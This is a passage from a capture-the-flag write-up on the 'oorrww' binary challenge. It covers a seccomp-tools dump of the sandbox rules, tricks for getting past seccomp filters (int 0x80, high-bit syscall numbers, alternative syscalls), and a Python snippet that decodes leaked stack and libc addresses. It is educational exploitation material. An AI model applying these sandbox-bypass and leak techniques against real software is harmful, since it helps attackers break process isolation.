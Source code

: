 Seeing the `sandbox()` function I realized not only it is protected by the stack canary and the other compiler's protections
but also seemingly there is some sandboxing security measures.

```sh
lenart@xorr0r0:~/ctf/oorrww_dist$ seccomp-tools dump ./oorrww
 line  CODE  JT   JF      K
###==============================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x0000003b  if (A ## execve) goto 0008
 0006: 0x15 0x01 0x00 0x00000142  if (A ## execveat) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

The trick to bypass seccomp rules is, If it doesn't check for the arch type, we could simply call another arch instruction,
for example, call int 0x80 instead of syscall, or if it didn't check for the syscall number greater than `0x40000000`,
we could pass `0x40000000 + SYSCALL_NUMBER` because apparently the Linux kernel ignores the high-order bits in the syscall number.
Another trick is to find other alternative system calls.

The challenge name gives some hints, `oorrww` is an abbreviation for `open/read/write`.

Getting back to Binja, we have:

```c
main()
...
gifts(&var_a8)
...

00001331  int64_t gifts(int64_t arg1)
00001341      void* fsbase
00001341      int64_t rax = *(fsbase + 0x28)
00001357      int64_t (* const var_28)() = __isoc99_scanf
0000137e      int512_t zmm1
0000137e      zmm1.o = zx.o(__isoc99_scanf)
00001396      printf("here are gifts for you: %.16g %.…", arg1, zmm1)
000013a0      int64_t rax_4 = rax - *(fsbase + 0x28)
000013a9      if (rax != *(fsbase + 0x28))
000013ab          rax_4 = __stack_chk_fail()
000013b1      return rax_4
```

So, the program leaks the address of the `var_a8` (which is the buffer where we write), and `__isoc99_scanf`.
Here is a script to convert the leaked addresses to hex:

```py
fleak = io.recvline().strip().decode().split()
buffer_leak = float.hex(float(fleak[5]))
buffer_leak = int(buffer_leak[5:17], 16)

scanf_leak = float.hex(float(fleak[6][:-1]))
scanf_leak = int(scanf_leak[5:17], 16)
```
